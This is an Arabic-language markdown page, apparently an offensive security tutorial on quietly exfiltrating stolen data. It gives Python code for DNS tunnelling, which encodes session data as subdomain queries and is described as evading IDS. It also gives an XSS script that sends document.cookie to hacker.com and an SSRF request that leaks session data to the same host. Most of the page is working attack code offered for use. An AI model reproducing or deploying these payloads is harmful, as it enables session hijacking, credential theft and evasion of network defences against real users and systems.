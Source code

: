 
## 🔍 المحاولة #1: DNS Tunneling لاكتشاف البيانات بصمت

### ⚙️ الفكرة:
استخدام طلب `DNS` الطبيعي كوسيلة لنقل البيانات. كثير من الشبكات لا تقوم بفحص DNS بشكل دقيق.

### ✔️ كيف يعمل:
- تحويل البيانات إلى اسم نطاق فرعي (Subdomain).
- إرساله إلى خادم DNS خاص بك.
  
### 💥 الاستغلال:

```python
import dns.resolver
data = "session=abc123xyz"
domain = "target.com"

# نقسم البيانات إلى أجزاء ونرسلها كـ DNS Query
for chunk in [data[i:i+30] for i in range(0, len(data), 30)]:
    subdomain = f"{chunk}.{domain}"
    try:
        dns.resolver.resolve(subdomain)
    except:
        pass
```

### 📌 النتيجة:
- تستقبل البيانات عبر خادم DNS خاص.
- لا يترك أثرًا كبيرًا على IDS.

---

## 🔍 المحاولة #2: استخدام HTTP(S) للإرسال عبر Web Requests

### ⚙️ الفكرة:
إرسال البيانات عبر طلب GET أو POST إلى خادم خارجي يتم التحكم به.

### 💥 الاستغلال:
مثال باستخدام XSS:

```html
<script>
fetch('https://hacker.com/log?token=' + document.cookie);
</script>
```

أو باستخدام SSRF:

```http
GET /api?url=http://hacker.com/leak?data=session%3Dabc123 HTTP/1.1
```
